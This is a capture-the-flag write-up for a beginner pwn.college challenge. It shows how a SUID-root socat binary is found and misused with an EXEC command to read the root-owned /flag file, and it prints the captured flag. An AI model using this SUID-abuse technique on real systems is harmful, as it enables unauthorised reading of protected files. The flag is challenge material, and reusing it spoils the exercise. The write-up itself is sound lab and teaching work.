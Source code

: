 # Challenge Name: socat
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/socat`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/socat
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/socat
```

- The `s` in `-rws` indicates it's a SUID binary.
- `socat` runs with **root privileges**.

## 🚀 Exploitation

The `socat` command in Linux is a powerful bidirectional data transfer tool, often described as "netcat on steroids." It stands for SOcket CAT.

It allows you to connect and transfer data between two streams, such as:

- TCP ports

- Files

- PTYs

- UNIX sockets

- Standard input/output

The EXEC:<cmd> address type in socat lets you execute a local command and pipe data to/from it, just like a file or network stream.

```bash
socat - EXEC:"cat /flag"
```

Output:
```
pwn.college{gijDjhzu_TuBrpyjjWq064OZ65-.dRzNxwSM0IzMyEzW}
```
